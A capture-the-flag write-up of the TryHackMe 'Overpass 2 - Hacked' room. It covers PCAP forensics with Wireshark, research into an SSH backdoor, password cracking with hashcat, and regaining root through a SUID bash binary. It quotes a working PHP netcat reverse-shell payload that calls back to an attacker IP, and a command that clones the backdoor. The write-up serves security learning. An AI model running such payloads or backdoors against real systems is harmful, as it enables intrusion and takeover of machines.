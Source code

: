 # Overpass 2 - Hacked

Write-up on the tryhackme ctf.

Scenario: Overpass has been hacked!

## Forensics - Analyze the PCAP

For this task I used Wireshark. At a glance I was able to take an educated guess at which IP was the attacker and which was the victim.

`192.168.170.145` is the attacker

`192.168.170.159` is the target.

### What was the URL of the page they used to upload a reverse shell?

![](images/s1.png)

`/development/`

### What payload did the attacker use to gain access?

I looked a bit deeper into the interesting packet from above.

![](images/s2.png)

The output contained the following php string, which is a reverse shell that connects back to `192.168.170.145` on port `4242`, confirming my guess that this is the attacker's IP address.

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker use to privesc?

Because the shell is running `nc`, the data being sent between the two machines will not be encrypted. I investigated the TCP stream between the two machines.

![](images/s3.png) 

This shows us the commands sent between the two computers.

![](images/s4.png)

The password used in privilege escalation is found here.

```
whenevernoteartinstant
```

### How did the attacker establish persistence?

![](images/s5.png)

Looking at the same TCP stream, we see the attacker set up an SSH backdoor by using a program downloaded from the internet.

```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

### Using the fasttrack wordlist, how many of the system passwords were crackable?

Again using the same TCP stream, we see the attacker was able to print the contents of `/etc/shadow`, showing us the hashes of user passwords.

![](images/s6.png)

I took this data and formatted it so that it could be cracked using `hashcat`, and stored this in a file called `hashes`.

![](images/s7.png)

Then I ran the program and cracked the passwords.

![](images/s8.png)

![](images/s9.png)

4 passwords could be cracked using the short `fasttrack` list.

## Research - Analyze the code

For this part I went to https://github.com/NinjaJc01/ssh-backdoor

### What's the default hash for the backdoor?

![](images/s10.png)

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?

![](images/s11.png)

`1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!

I looked once more at the TCP stream in Wireshark.

![](images/s12.png)

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

I used https://hashes.com/en/tools/hash_identifier to identify the hash type.

![](images/s13.png)

The hash needed to be put in a specific format with the hash and the salt.

![](images/s14.png)

Again I ran hashcat to crack the password.

![](images/s15.png)

![](images/s16.png)

`november16` is the password.


##  Attack - Get back in!

The forensics and research part is done, from here onward, this is just like a normal CTF.

I ran an `nmap` scan on the machine to show me open ports and some system information.

![](images/s18.png)

### The attacker defaced the website. What message did they leave as a heading?

This can be found by just going to the website.

![](images/s17.png)

`H4ck3d by CooctusClan`

### Using the information you've found previously, hack your way back in!

Here, I used the research on the backdoor to make getting into the machine simple.

![](images/s19.png)

use `november16`.

### What's the user flag?

Check the `home` directory for `james`.

### What's the root flag?

To get the root flag, we need to get root.

I started by checking what files have the SUID bit turned on and noticed one that was out of the ordinary.

![](images/s20.png)

![](images/s21.png)

I then ran the script to see what it did. It opens bash.

![](images/s22.png)

Using a technique from [gtfobins](https://gtfobins.github.io/gtfobins/bash/#suid), I was able to elevate privileges to root!

![](images/s23.png)
